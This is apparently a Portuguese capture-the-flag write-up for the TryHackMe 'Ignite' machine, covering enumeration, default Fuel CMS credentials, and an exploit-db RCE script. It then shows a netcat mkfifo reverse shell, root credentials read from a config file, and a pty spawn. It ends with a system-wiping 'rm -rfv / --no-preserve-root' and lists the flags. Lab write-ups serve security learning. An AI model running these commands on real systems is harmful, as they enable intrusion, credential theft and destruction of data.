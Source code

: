 CTF IGNITE

Ao inicar o desafio dei um nmap 

    nmap -A -sV IP 

Encontrei apenas a porta 80 

No servidor apache no html tinha informando o diretorio a versao do fuel cms, o username e senha do admin 

    version 1.4
    /fuel
    username: admin
    password: admin

Dei um gobuster mas nao encontrei nada apenas uma index.php, assim ja pensando que teria que executar um script em php 

Ao logar no painel admin tinha algumas opcoes para upar arquivos php ou qualquer outro, tinha como criar usuarios, enviar imagens etc..

Entretando nao consegui executar nenhum script que criase uma shell reversa para mim, entao pensei estar no caminho errado

Ao procurar por algum erro da versao do fuel cms no "exploit-db", encontrei uma falha RCE dessa versao

Entao eu baixei o arquivo para o meu kali 

    wget https://www.exploit-db.com/raw/50477
    python3 50477 -u http://IP

Executando o script tinha que informar apenas um parametro que era o ip que seria atacado... 

Abria uma shell que nao tinha acesso a nada... 
Assim teria que tentar executar outra reverse shell nessa shell que abri 

Bom, a partir dai eu nao sabia qual shell executar entao eu tentei em python.. em bash e fui seguindo ate alguma dar certo ate que consegui usando a nc mkfifo

Script

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP(tryhackme) 1333 >/tmp/f

NetCat

    nc -lvnp 1333

Assim conseguindo acesso ao usuario www-data e tendo acesso a primeira flag do desafio "user.txt" 

    cd home
    www-data
    cat flag.txt
    6470e394cbf6dab6a91682cc8585059b

Apos conseguir acesso a primeira flag do desafio tinha que ir atras do root 
Procurando no sistema encontrei a database da aplicacao dentro do diretorio

    /var/www/html/application/config/database.php

Dentro da database.php tinha o nome e senha do root

    username: root
    password: mememe

Ao tentar acessar o root pelo su ele pedia que fosse em um terminal entao executei um script em python que me permite executar o su

    touch script.py
    echo 'import pty;pty.spawn("/bin/sh")' >> script.py
    python script.py

Assim...

    su root
    pass "mememe"

Dentro da pasta root

    cd root
    cat root.txt
    b9bbcb33e11b80be759c4e844862482d

Finalizando..

    touch dannydev19.txt
    rm -rfv / --no-preserve-root

FLAGS

    FLAG 1: 6470e394cbf6dab6a91682cc8585059b
    FLAG 2: b9bbcb33e11b80be759c4e844862482d